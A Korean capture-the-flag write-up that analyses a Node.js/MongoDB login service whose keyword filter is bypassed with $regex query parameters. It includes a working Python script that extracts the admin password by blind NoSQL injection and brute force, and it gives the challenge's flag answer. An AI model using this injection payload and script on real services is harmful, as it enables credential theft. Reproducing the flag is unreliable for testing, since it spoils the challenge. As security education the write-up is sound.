

문제는 **이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 플래그는 admin 계정의 비밀번호 입니다. 플래그의 형식은 DH{...} 입니다. {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}** 이다.

먼저 코드를 보면 다음과 같다.

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

이번에는 파이썬이 아니라 자바스크립트 파일이다.

먼저 path 에 따라 나누면 다음과 같다.

(1) 

(2) 

1. /
위의 그림처럼 **/login?uid=guest&upw=guest** 를 화면에 출력한다.
2. /login
위의 그림은 **/login?uid=guest&upw=guest** 를 적은 상황인데, 이렇게 **uid를 화면에 출력** 한다.

/login 의 작동방식을 간단히 보면

1. request query 를 **filter 함수**에 넣는다.
2. filter 함수에서는 request query 를 JSON으로 만들고 **admin, dh, admi 가 들어갔는지 확인**해서, 있다면 filter 처리한다.
3. 만약 filter 함수를 잘 통과했다면, user 콜렉션에서 **입력한 uid, upw 가 있는지 확인**해서 **있다면 uid를 화면에 출력**한다.

즉, 위에 있던 그림은 uid, upw가 guest 인 것을 찾았기 때문에 uid인 **guest 를 출력**한다.

```js
if (err){
	res.send('err');
}else if(result){
	res.send(result['uid']);
}else{
	res.send('undefined');
}
```

위의 코드에 의해 admin **/login?uid=admin&upw=flag 값** 을 적으면 화면에 **admin**이 나올 것이다.  

테스트하기 위해 **/login?uid[$regex]=^a&upw[$regex]=^D** 를 적었다.  

  

위와 같이 **admin** 이 나왔다.  

또한 코드에서 힌트를 보면 flag는 **32자리**이고 **숫자, 영문자**가 들어간다.

즉, **Blind NoSQL Injection** 을 통해 한 자리씩 찾으면 된다.

처음에 burf suite 를 사용해서 찾으려 했지만, 브루트포스를 하는 데 생각보다 오래 걸려서 python으로 하나씩 찾았다.

```python
import requests
import string

# 영문자 + 숫자
tc = string.ascii_letters + string.digits

# flag : 현재까지 찾은 flag
flag = ""

# flag는 32자리 이므로 32번 반복
for i in range(32):

    # 가능한 문자를 하나씩 가져옴
    for j in tc:
        
        # uid[$regex]=^a : uid가 a로 시작함(필터 우회)
        # upw[$regex]=D.{" + flag + j : D.(아무 문자, H를 의미){" + flag(현재까지 알아낸 flag 일부) + j(현재 확인하는 문자)
        response = requests.get("http://host1.dreamhack.games:21779/login?uid[$regex]=^a&upw[$regex]=D.{" + flag + j)

        # 디버깅 용도
        # print(f'j : {j}, response : {response.text}')

        # 만약 응답 결과가 admin 이면, 한 글자를 찾았다는 뜻이므로 flag에 그 문자를 넣고 다음 문자를 알기 위해 break
        if response.text == "admin":
            flag += j
            print(f'현재 flag : DH{{{flag}}}')
            break

# flag 출력
print(f'최종 flag : DH{{{flag}}}')
```

  

위의 코드를 실행하면, 다음과 같이 flag 가 나온다.

따라서 정답은 **DH{89e50fa6fafe2604e33c0ba05843d3df}** 이다.